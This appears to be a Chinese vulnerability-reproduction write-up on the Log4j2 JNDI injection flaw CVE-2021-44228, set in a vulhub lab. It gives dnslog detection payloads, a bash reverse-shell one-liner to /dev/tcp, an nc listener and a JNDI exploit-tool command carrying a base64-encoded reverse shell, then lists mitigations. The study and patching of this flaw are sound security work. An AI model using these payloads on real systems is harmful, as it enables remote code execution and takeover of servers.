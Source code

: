 # CVE-2021-44228

### 1.1、漏洞描述

Log4j2默认支持解析ldap/rmi协议（只要打印的日志中包括ldap/rmi协议即可），并会通过名称从ldap服务端获取对应的Class文件，使用ClassLoader在本地加载Ldap服务端返回的Class类。这就为攻击者提供了攻击途径，攻击者可以在界面传入一个包含恶意内容（会提供一个恶意的Class文件）的ldap协议内容（如：恶意内容${jndi:ldap://localhost:9999/Test}恶意内容），该内容传递到后端被log4j2打印出来，就会触发恶意的Class的加载执行（可执行任意后台指令），从而达到攻击的目的。
```java
javaCopy Codeimport org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jExample {
    // 获取Logger对象，参数为当前类名
    private static final Logger logger = LogManager.getLogger(Log4jExample.class);

    public static void main(String[] args) {
        // 示例日志输出
        logger.trace("Trace 级别日志");
        logger.debug("Debug 级别日志");
        logger.info("Info 级别日志");
        logger.warn("Warn 级别日志");
        logger.error("Error 级别日志");
        logger.fatal("Fatal 级别日志");
    }
}
```

${}这是一个表达式，我们可以利用表达是输出用户信息，当前时间等。

重要的是运用表达式我们就可以使用jndi协议了，例如${jndi:ldap://localhost:9999/Test} ，利用jndi请求地址为//localhost:9999的ldap服务，查找内容Test。

你怎么说//localhost:9999是一个ladp的服务呢！也许人家就是一个普通的地址呢！没错这里客户端也没法判定，也是在请求完之后判定的，这里输入dns的地址会解析吗？会，可以利用这个特点打下dnslog请求，初步确定漏洞。  

### 1.2、漏洞原理

[【精选】Log4j2注入漏洞(CVE-2021-44228)万字深度剖析(二)—漏洞原理_log4j2漏洞-CSDN博客](https://blog.csdn.net/hilaryfrank/article/details/121939902)

### 1.3、漏洞等级

高

### 1.4、影响版本

### 1.5、漏洞复现

#### 1、基础环境

Path：vulhub/log4j/CVE-2021-44228

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8983/solr/admin/cores?action=`即可看到

![image-20240409211005986](./imgs/image-20240409211005986.png)

![image-20240409211043184](./imgs/image-20240409211043184.png)



#### 2、漏洞验证

payload准备

```
${jndi:ldap://n2ii2r.dnslog.cn}
```

![image-20240409211423275](./imgs/image-20240409211423275.png)

查看dnslog平台解析记录

![image-20240409211401028](./imgs/image-20240409211401028.png)

payload插入表达式

```
${jndi:ldap://${sys:java.version}.n2ii2r.dnslog.cn}
```

![image-20240409211601179](./imgs/image-20240409211601179.png)

![image-20240409211635749](./imgs/image-20240409211635749.png)

### 1.6、深度利用

#### 1、反弹Shell

工具梭哈~

直接用JNDI注入工具`JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar`或`JNDIExploit-1.4-SNAPSHOT.jar`，可以在github上搜一下

> 使用方式：
> java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]

先执行如下命令，并base64编码

```bash
bash -i >& /dev/tcp/192.168.43.147/4567 0>&1
```

![image-20240409220715708](./imgs/image-20240409220715708.png)

nc监听 

```bash
 nc -lnvp 4567
```

![image-20240409214802041](./imgs/image-20240409214802041.png)

编码后的命令通过`-C`参数输入JNDI工具，通过通过`-A`参数指定攻击机的ip地址：

```bash
java -jar .\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQzLjE0Ny80NTY3IDA+JjE=} | {base64,-d}|{bash,-i}" -A "192.168.43.147"
```



### 1.7、修复建议

**官方方案**：

将Log4j框架升级到2.15.0版本， 不要用2.15.0-rc1和2.15.0-rc2
**临时方案：**

1、升级JDK

2、修改log4j配置

2.1、设置参数：

```
log4j2.formatMsgNoLookups=True
```

2.2、修改jvm参数：

```
-Dlog4j2.formatMsgNoLookups=true
```

2.3、系统环境变量：

```
FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS设置为true
```

2.4、禁止log4j2所在的服务器外连

使用安全产品防护：WAF、RASP

### 1.8、参考

- https://blog.csdn.net/weixin_50892961/article/details/135446028
- [Log4j2注入漏洞(CVE-2021-44228)万字深度剖析](https://blog.csdn.net/hilaryfrank/article/details/121939902)
- [bilibili【面试必问】Log4j漏洞复现及原理刨析，简单易懂](https://www.bilibili.com/video/BV1fT411P7Tu/?vd_source=7cb54e8da5c4e85dd5ca576825dc1c86)